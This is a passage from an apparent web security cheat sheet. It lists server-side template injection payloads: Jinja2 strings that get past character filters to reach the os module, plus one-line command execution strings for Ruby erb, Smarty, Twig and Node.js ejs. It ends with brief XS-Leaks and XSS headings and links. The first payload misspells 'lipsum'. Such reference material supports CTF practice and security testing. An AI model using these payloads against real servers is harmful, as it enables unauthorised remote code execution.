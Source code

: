   - Bypass
    - `.`

      ```txt
      /?ssti={{libsum['__globals__']['os']}}
      ```

    - `.` `_`

      ```txt
      /?ssti={{lipsum['\x5f\x5fglobals\x5f\x5f']['os']}}
      ```

    - `.` `_` `[` `]`

      ```txt
      /?ssti={{lipsum|attr('\x5f\x5fglobals\x5f\x5f')|attr('os')}}
      ```

    - `.` `_` `[` `]` `|`

      ```txt
      /?ssti={{getattr(getattr(lipsum,'\x5f\x5fglobals\x5f\x5f'), 'os')}}
      ```

    - `.` `_` `[` `]` `{{` `}}`

      ```txt
      /?ssti={%if lipsum|attr('\x5f\x5fglobals\x5f\x5f')|attr('os') %}{%endif%}
      ```

    - length or other special characters (`'` `"`)

      ```txt
      /?ssti={{lipsum[request.args.param1][request.args.param2]}}&param1=__globals__&param2=os

      /?ssti={{config.update(payload=request.args.param1)}}&param1=ls
      /?ssti={{lipsum.__globals__.os.popen(config.payload)}}
      ```
- Ruby erb
  - `<%= system('id') %>`
- PHP Smarty
  - `{ system('id') }`
- PHP Twig
  - `{{ ['id'] | filter('system') }}`
- Node.js ejs
  - `<%= global.process.mainModule.require("child_process").execSync("id").toString() %>`
- Format String Attack

#### XS-Leaks
> [XS-Leaks Wiki](https://xsleaks.dev/)
> [xsleaks/xsleaks](https://github.com/xsleaks/xsleaks)  

- Browser-based side channel attack  

#### XSS
> [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
